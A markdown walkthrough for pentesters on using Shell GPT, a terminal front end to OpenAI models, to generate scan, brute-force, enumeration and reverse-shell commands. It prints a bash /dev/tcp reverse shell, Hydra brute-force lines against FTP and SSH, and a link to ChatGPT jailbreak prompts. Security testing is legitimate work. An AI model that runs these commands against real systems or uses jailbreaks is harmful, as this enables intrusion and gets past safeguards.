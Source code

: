 # 🛠️ Shell GPT Walkthrough for Pentesting

Shell GPT (sgpt) is a CLI tool that integrates OpenAI’s models into your terminal. This walkthrough shows how to use sgpt effectively during pentesting engagements.

---

## ⚙️ Installation

pip install shell-gpt

Set your OpenAI API key:

export OPENAI_API_KEY="your-api-key"

Test it:

sgpt --shell "Hello"

---

## 💡 Usage Examples

### 1. 🔍 Basic Prompt

sgpt --shell "What is the Nmap command to scan all ports?"

**Result:**

nmap -p- 10.10.10.10

---

### 2. 🧠 Shell Mode

Generate raw bash-ready commands:

sgpt --shell "Brute force FTP login with Hydra using rockyou.txt"

**Output:**

hydra -l admin -P /usr/share/wordlists/rockyou.txt ftp://10.10.10.10

---

### 3. 🛠️ Script Creation

sgpt --shell "Write a bash script to ping all IPs in a subnet"

**Output:**

#!/bin/bash  
for ip in $(seq 1 254); do  
  ping -c 1 192.168.1.$ip | grep "64 bytes" &  
done

---

### 4. 🎯 Reverse Shells

sgpt --shell "Give me a bash reverse shell for 192.168.1.100:4444"

**Output:**

bash -i >& /dev/tcp/192.168.1.100/4444 0>&1

---

### 5. 🛡️ CVE/Exploit Queries

sgpt --shell "Known CVEs for Apache 2.4.49"

**Result:**

- CVE-2021-41773: Path Traversal  
- CVE-2021-42013: RCE

---

## 🧪 Pentest Workflow Example (with sgpt)

# Full port scan  
sgpt --shell "Nmap full scan command"  
→ nmap -p- 10.10.10.10

# Directory enumeration  
sgpt --shell "Gobuster command for web server on port 8080"  
→ gobuster dir -u http://10.10.10.10:8080 -w /usr/share/wordlists/dirb/common.txt

# SSH bruteforce  
sgpt --shell "Hydra command to bruteforce SSH"  
→ hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.10

# Enum SMB  
sgpt --shell "smbclient command to enumerate shares"  
→ smbclient -L //10.10.10.10 -N

---

## 🧠 Tips

- Always use --shell to get ready-to-run terminal output.  
- Add --code if using in environments where markdown formatting matters.  
- Switch models with --model gpt-3.5-turbo or --model gpt-4.

---
## Refernce
Jailbreaks prompt for chatgpt 
https://gist.github.com/coolaj86/6f4f7b30129b0251f61fa7baaa881516

## 📌 Summary

Shell GPT helps red teamers, bug bounty hunters, and CTF players automate terminal tasks through natural language. It’s fast, contextual, and extremely helpful during reconnaissance, exploitation, and reporting.

---

